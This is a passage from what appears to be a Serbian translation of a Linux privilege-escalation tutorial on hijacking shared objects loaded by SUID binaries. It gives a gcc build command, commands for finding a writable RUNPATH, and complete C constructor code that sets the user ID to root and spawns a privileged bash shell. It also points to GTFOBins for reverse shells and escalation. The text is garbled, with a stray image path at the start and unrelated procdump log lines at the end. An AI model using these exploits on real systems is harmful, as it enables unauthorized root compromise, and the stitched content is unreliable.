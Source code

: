 Ovaj kod, kada se kompajlira i izvrši, ima za cilj da poveća privilegije manipulacijom dozvola datoteka i izvršavanjem ljuske sa povećanim privilegijama.

Kompajlirajte gorenavedeni C fajl u deljenu objektnu (.so) datoteku koristeći:

```bash
gcc -shared -o /path/to/.config/libcalc.so -fPIC /path/to/.config/libcalc.c
```

Konačno, pokretanje pogođenog SUID binarnog fajla trebalo bi da pokrene eksploataciju, omogućavajući potencijalno kompromitovanje sistema.

## Hakovanje deljenog objekta

```bash
# Lets find a SUID using a non-standard library
ldd some_suid
something.so => /lib/x86_64-linux-gnu/something.so

# The SUID also loads libraries from a custom location where we can write
readelf -d payroll  | grep PATH
0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

Sada kada smo pronašli SUID binarnu datoteku koja učitava biblioteku iz foldera u kojem možemo pisati, kreirajmo biblioteku u tom folderu s potrebnim imenom:

```c
//gcc src.c -fPIC -shared -o /development/libshared.so
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
setresuid(0,0,0);
system("/bin/bash -p");
}
```

Ako dobijete grešku kao što je

```shell-session
./suid_bin: symbol lookup error: ./suid_bin: undefined symbol: a_function_name
```

To znači da biblioteka koju ste generisali mora imati funkciju nazvanu `a_function_name`.

### GTFOBins

[**GTFOBins**](https://gtfobins.github.io) je kurirana lista Unix binarnih fajlova koje napadač može iskoristiti da zaobiđe lokalna sigurnosna ograničenja. [**GTFOArgs**](https://gtfoargs.github.io/) je isto to, ali za slučajeve kada možete **samo ubaciti argumente** u komandu.

Projekat prikuplja legitimne funkcije Unix binarnih fajlova koje mogu biti zloupotrebljene da bi se probile ograničene ljuske, eskalirale ili održavale privilegije, prenosile datoteke, pokretale bind i reverse ljuske i olakšavale druge zadatke nakon eksploatacije.


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714